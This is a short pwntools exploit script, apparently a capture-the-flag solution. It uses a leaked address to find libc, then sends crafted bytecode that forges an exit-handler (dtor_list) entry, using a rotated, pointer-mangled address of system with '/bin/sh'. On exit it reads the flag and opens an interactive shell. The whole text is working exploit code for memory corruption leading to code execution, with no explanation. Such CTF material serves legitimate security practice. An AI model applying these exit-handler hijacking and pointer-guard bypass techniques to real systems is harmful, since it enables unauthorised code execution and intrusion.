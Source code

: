 ```python
print('leak = '+hex(leak))
libc.address = leak - 0x219ce0
print('libc base = '+hex(libc.address))

rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

size = 0x2000000000030000
sla('code size:','100')
# create a fake dtor_list entry to get code execution at exit
sla('memory count', str(size))
code = b'\x15\x00'+p64(0x302ec)  # clear rand val
code += b'\x14\x00'+p64(libc.address - 0x2a00)
code += b'\x15\x00'+p64(0x302db)  # rbp val
dest = rol(libc.sym['system'],0x11,64)
code += b'\x14\x00'+p64(dest)
code += b'\x15\x00'+p64(0x302be)  # rbp val
code += b'\x14\x00'+p64(next(libc.search('/bin/sh')))
code += b'\x15\x00'+p64(0x302bf)  # rbp val
code += b'\x17'
sl(code)

# now we exit
sla('continue?', 'bye bye\x00')
# and enjoy shell
p.sendline('id; cat flag*;')
p.interactive()
```

*nobodyisnobody still pwning things..*